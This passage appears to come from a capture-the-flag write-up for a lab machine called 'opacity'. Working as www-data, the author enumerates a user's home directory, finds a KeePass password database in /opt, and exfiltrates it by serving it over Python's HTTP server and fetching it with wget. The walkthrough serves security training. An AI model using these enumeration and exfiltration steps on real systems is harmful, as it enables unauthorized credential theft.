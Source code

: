 Searching for the first flag. <br/>
```sh
www-data@opacity:/$ ls -la /home/
total 12
drwxr-xr-x  3 root     root     4096 Jul 26  2022 .
drwxr-xr-x 19 root     root     4096 Jul 26  2022 ..
drwxr-xr-x  6 sysadmin sysadmin 4096 Feb 22  2023 sysadmin

www-data@opacity:/$ ls -la /home/sysadmin/
total 44
drwxr-xr-x 6 sysadmin sysadmin 4096 Feb 22  2023 .
drwxr-xr-x 3 root     root     4096 Jul 26  2022 ..
-rw------- 1 sysadmin sysadmin   22 Feb 22  2023 .bash_history
-rw-r--r-- 1 sysadmin sysadmin  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 sysadmin sysadmin 3771 Feb 25  2020 .bashrc
drwx------ 2 sysadmin sysadmin 4096 Jul 26  2022 .cache
drwx------ 3 sysadmin sysadmin 4096 Jul 28  2022 .gnupg
-rw-r--r-- 1 sysadmin sysadmin  807 Feb 25  2020 .profile
drwx------ 2 sysadmin sysadmin 4096 Jul 26  2022 .ssh
-rw-r--r-- 1 sysadmin sysadmin    0 Jul 28  2022 .sudo_as_admin_successful
-rw------- 1 sysadmin sysadmin   33 Jul 26  2022 local.txt
drwxr-xr-x 3 root     root     4096 Jul  8  2022 scripts

www-data@opacity:/$ cat /home/sysadmin/local.txt
cat: /home/sysadmin/local.txt: Permission denied
```

Since my permissions were insufficient to read the first flag, I continued searching for additional information. <br/>
Finding an interesting file in `/opt/` I setup another http server, so I could grab the file from my local machine. <br/>
```sh
$ www-data@opacity:/$ ls -la /opt/
total 12
drwxr-xr-x  2 root     root     4096 Jul 26  2022 .
drwxr-xr-x 19 root     root     4096 Jul 26  2022 ..
-rwxrwxr-x  1 sysadmin sysadmin 1566 Jul  8  2022 dataset.kdbx

www-data@opacity:/opt$ python3 -m http.server 5000
python3 -m http.server 5000
Serving HTTP on 0.0.0.0 port 5000 (http://0.0.0.0:5000/) ...
```

Getting the file: <br/>
```sh
$ wget http://10.10.98.27:5000/dataset.kdbx
--2024-03-29 11:18:19--  http://10.10.98.27:5000/dataset.kdbx
Connecting to 10.10.98.27:5000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1566 (1.5K) [application/octet-stream]
Saving to: ‘dataset.kdbx’
dataset.kdbx   100%[====================================================>]   1.53K  --.-KB/s    in 0.001s  
2024-03-29 11:18:19 (2.07 MB/s) - ‘dataset.kdbx’ saved [1566/1566]

$ file dataset.kdbx 
dataset.kdbx: Keepass password database 2.x KDBX
```
